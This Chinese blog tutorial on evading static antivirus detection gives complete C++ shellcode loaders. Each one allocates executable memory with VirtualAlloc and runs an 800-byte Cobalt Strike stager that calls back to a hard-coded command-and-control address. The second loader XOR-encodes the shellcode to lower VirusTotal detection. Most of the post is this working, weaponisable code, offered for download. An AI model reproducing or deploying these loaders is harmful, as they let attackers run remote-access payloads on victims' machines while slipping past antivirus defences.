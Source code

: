 ```yaml
---
date: "2019-11-10T00:00:00Z"
description: 来来回回就会这么一点东西，不想一直停留在一个点上了，准备总结一下，往深的走。
title: 静态恶意代码逃逸（第二课）
url: /archivers/2019-11-10/2
---
```


## 0x01 关于Windows操作系统内存

前五课的代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

这里还是稍微展开介绍一下，Windows操作系统的内存有三种属性，分别为：可读、可写、可执行，并且操作系统将每个进程的内存都隔离开来，当进程运行时，创建一个虚拟的内存空间，系统的内存管理器将虚拟内存空间映射到物理内存上，所以每个进程的内存都是等大的。

操作系统给予每个进程申请内存的权力，使用不同的API，申请的内存具有不同的涵义。

在进程申请时，需要声明这块内存的基本信息：申请内存大小、申请内存起始内存基址、申请内存属性、申请内存对外的权限等。

申请方式：

- HeapAlloc
- malloc
- VirtualAlloc
- new
- LocalAlloc
- …

## 0x02 申请内存API的关系

其实以上所有的内存申请方式都与VirtualAlloc有关，因为VirtualAlloc申请的单位是“页”。而Windows操作系统管理内存的单位也是“页”。

## 0x03 实现一次正常加载

这里我创建了一个C++项目，名字为：BadCode

先来使用cobaltstrike默认的shellcode进行加载，为了方便阅读参考，在代码中我会尽量留下注释。

```c
#include <Windows.h>


// 入口函数
int wmain(int argc,TCHAR * argv[]){

    int shellcode_size = 0; // shellcode长度
    DWORD dwThreadId; // 线程ID
    HANDLE hThread; // 线程句柄
/* length: 800 bytes */

unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68\x77\x69\x6e\x69\x54\x68\x4c\x77\x26\x07\xff\xd5\x31\xff\x57\x57\x57\x57\x57\x68\x3a\x56\x79\xa7\xff\xd5\xe9\x84\x00\x00\x00\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x68\x90\x1f\x00\x00\x53\x50\x68\x57\x89\x9f\xc6\xff\xd5\xeb\x70\x5b\x31\xd2\x52\x68\x00\x02\x60\x84\x52\x52\x52\x53\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89\xc6\x83\xc3\x50\x31\xff\x57\x57\x6a\xff\x53\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x00\x31\xff\x85\xf6\x74\x04\x89\xf9\xeb\x09\x68\xaa\xc5\xe2\x5d\xff\xd5\x89\xc1\x68\x45\x21\x5e\x31\xff\xd5\x31\xff\x57\x6a\x07\x51\x56\x50\x68\xb7\x57\xe0\x0b\xff\xd5\xbf\x00\x2f\x00\x00\x39\xc7\x74\xb7\x31\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff\x2f\x50\x45\x4f\x78\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x42\x4f\x49\x45\x39\x3b\x4e\x4c\x4e\x4c\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x00\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x40\x68\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x58\xa4\x53\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9\x51\x53\x89\xe7\x57\x68\x00\x20\x00\x00\x53\x56\x68\x12\x96\x89\xe2\xff\xd5\x85\xc0\x74\xc6\x8b\x07\x01\xc3\x85\xc0\x75\xe5\x58\xc3\xe8\xa9\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x31\x37\x30\x2e\x31\x32\x38\x00\x00\x00\x00\x00";

// 获取shellcode大小
shellcode_size = sizeof(buf);

/*
VirtualAlloc(
    NULL, // 基址
    800,  // 大小
    MEM_COMMIT, // 内存页状态
    PAGE_EXECUTE_READWRITE // 可读可写可执行
    );
*/

char * shellcode = (char *)VirtualAlloc(
    NULL,
    shellcode_size,
    MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
    );
    // 将shellcode复制到可执行的内存页中
CopyMemory(shellcode,buf,shellcode_size);

hThread = CreateThread(
    NULL, // 安全描述符
    NULL, // 栈的大小
    (LPTHREAD_START_ROUTINE)shellcode, // 函数
    NULL, // 参数
    NULL, // 线程标志
    &dwThreadId // 线程ID
    );

WaitForSingleObject(hThread,INFINITE); // 一直等待线程执行结束
    return 0;
}

```

编译成功后，运行：

![2019-11-10-02-02-56](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ae3c7c2523b769b9daf73290eba00e9d.png)

V站查杀结果：

![2019-11-10-02-03-07](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/9ae0b7ce7224d81bcb3faa012e97b3b2.png)

https://www.virustotal.com/gui/file/00b0fe741923838b5757281e2ea37c0732c88443a8a4730f384371d8a8b0c2b0/detection

这个效果已经很好，但是我想要更好。

## 0x04 实现一次混淆加载

使用之前的Python脚本混淆生成RAW文件，最后得到混淆后的数组：

```c
#include <Windows.h>


// 入口函数
int wmain(int argc,TCHAR * argv[]){

    int shellcode_size = 0; // shellcode长度
    DWORD dwThreadId; // 线程ID
    HANDLE hThread; // 线程句柄
/* length: 800 bytes */

unsigned char buf[] = "\xf6\xe2\x83\x0a\x0a\x0a\x6a\x83\xef\x3b\xd8\x6e\x81\x58\x3a\x81\x58\x06\x81\x58\x1e\x81\x78\x22\x05\xbd\x40\x2c\x3b\xf5\x3b\xca\xa6\x36\x6b\x76\x08\x26\x2a\xcb\xc5\x07\x0b\xcd\xe8\xfa\x58\x5d\x81\x58\x1a\x81\x48\x36\x0b\xda\x81\x4a\x72\x8f\xca\x7e\x40\x0b\xda\x5a\x81\x42\x12\x81\x52\x2a\x0b\xd9\xe9\x36\x43\x81\x3e\x81\x0b\xdc\x3b\xf5\x3b\xca\xa6\xcb\xc5\x07\x0b\xcd\x32\xea\x7f\xfe\x09\x77\xf2\x31\x77\x2e\x7f\xe8\x52\x81\x52\x2e\x0b\xd9\x6c\x81\x06\x41\x81\x52\x16\x0b\xd9\x81\x0e\x81\x0b\xda\x83\x4e\x2e\x2e\x51\x51\x6b\x53\x50\x5b\xf5\xea\x52\x55\x50\x81\x18\xe1\x8c\x57\x62\x64\x6f\x7e\x0a\x62\x7d\x63\x64\x63\x5e\x62\x46\x7d\x2c\x0d\xf5\xdf\x3b\xf5\x5d\x5d\x5d\x5d\x5d\x62\x30\x5c\x73\xad\xf5\xdf\xe3\x8e\x0a\x0a\x0a\x51\x3b\xc3\x5b\x5b\x60\x09\x5b\x5b\x62\x9a\x15\x0a\x0a\x59\x5a\x62\x5d\x83\x95\xcc\xf5\xdf\xe1\x7a\x51\x3b\xd8\x58\x62\x0a\x08\x6a\x8e\x58\x58\x58\x59\x58\x5a\x62\xe1\x5f\x24\x31\xf5\xdf\x83\xcc\x89\xc9\x5a\x3b\xf5\x5d\x5d\x60\xf5\x59\x5c\x62\x27\x0c\x12\x71\xf5\xdf\x8f\xca\x05\x8e\xc9\x0b\x0a\x0a\x3b\xf5\x8f\xfc\x7e\x0e\x83\xf3\xe1\x03\x62\xa0\xcf\xe8\x57\xf5\xdf\x83\xcb\x62\x4f\x2b\x54\x3b\xf5\xdf\x3b\xf5\x5d\x60\x0d\x5b\x5c\x5a\x62\xbd\x5d\xea\x01\xf5\xdf\xb5\x0a\x25\x0a\x0a\x33\xcd\x7e\xbd\x3b\xf5\xe3\x9b\x0b\x0a\x0a\xe3\xc3\x0b\x0a\x0a\xe2\x81\xf5\xf5\xf5\x25\x39\x7f\x65\x4f\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x0a\x5f\x79\x6f\x78\x27\x4b\x6d\x6f\x64\x7e\x30\x2a\x47\x65\x70\x63\x66\x66\x6b\x25\x3f\x24\x3a\x2a\x22\x69\x65\x67\x7a\x6b\x7e\x63\x68\x66\x6f\x31\x2a\x47\x59\x43\x4f\x2a\x33\x24\x3a\x31\x2a\x5d\x63\x64\x6e\x65\x7d\x79\x2a\x44\x5e\x2a\x3c\x24\x3b\x31\x2a\x5e\x78\x63\x6e\x6f\x64\x7e\x25\x3f\x24\x3a\x31\x2a\x48\x45\x43\x4f\x33\x31\x44\x46\x44\x46\x23\x07\x00\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x3e\x56\x5a\x50\x52\x3f\x3e\x22\x5a\x54\x23\x3d\x49\x49\x23\x3d\x77\x2e\x4f\x43\x49\x4b\x58\x27\x59\x5e\x4b\x44\x4e\x4b\x58\x4e\x27\x4b\x44\x5e\x43\x5c\x43\x58\x5f\x59\x27\x5e\x4f\x59\x5e\x27\x4c\x43\x46\x4f\x2b\x2e\x42\x21\x42\x20\x0a\x3f\x45\x2b\x5a\x2f\x4a\x4b\x5a\x51\x0a\x62\xfa\xbf\xa8\x5c\xf5\xdf\x60\x4a\x62\x0a\x1a\x0a\x0a\x62\x0a\x0a\x4a\x0a\x5d\x62\x52\xae\x59\xef\xf5\xdf\x99\xb3\x0a\x0a\x0a\x0a\x0b\xd3\x5b\x59\x83\xed\x5d\x62\x0a\x2a\x0a\x0a\x59\x5c\x62\x18\x9c\x83\xe8\xf5\xdf\x8f\xca\x7e\xcc\x81\x0d\x0b\xc9\x8f\xca\x7f\xef\x52\xc9\xe2\xa3\xf7\xf5\xf5\x3b\x33\x38\x24\x3b\x3c\x32\x24\x3b\x3d\x3a\x24\x3b\x38\x32\x0a\x0a\x0a\x0a\x0a";


// 获取shellcode大小
shellcode_size = sizeof(buf);

/* 增加异或代码 */
for(int i = 0;i<shellcode_size; i++){
    buf[i] ^= 10;
}
/*
VirtualAlloc(
    NULL, // 基址
    800,  // 大小
    MEM_COMMIT, // 内存页状态
    PAGE_EXECUTE_READWRITE // 可读可写可执行
    );
*/

char * shellcode = (char *)VirtualAlloc(
    NULL,
    shellcode_size,
    MEM_COMMIT,
    PAGE_EXECUTE_READWRITE
    );
    // 将shellcode复制到可执行的内存页中
CopyMemory(shellcode,buf,shellcode_size);

hThread = CreateThread(
    NULL, // 安全描述符
    NULL, // 栈的大小
    (LPTHREAD_START_ROUTINE)shellcode, // 函数
    NULL, // 参数
    NULL, // 线程标志
    &dwThreadId // 线程ID
    );

WaitForSingleObject(hThread,INFINITE); // 一直等待线程执行结束
    return 0;
}
```

上线效果：

![2019-11-10-02-03-50](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/84bf754d1afd227d93498e3f430869e1.png)

![2019-11-10-02-03-57](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/94ab9484b62fef4f84b36dd0671a8b21.png)

V站查杀：

![2019-11-10-02-04-08](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/55b2a8ab680d466d52d20b40011fe9f4.png)

https://www.virustotal.com/gui/file/a12105a78ccc3228bae12c170782c71b8212bd44e65f519947c6136f17e04723/detection

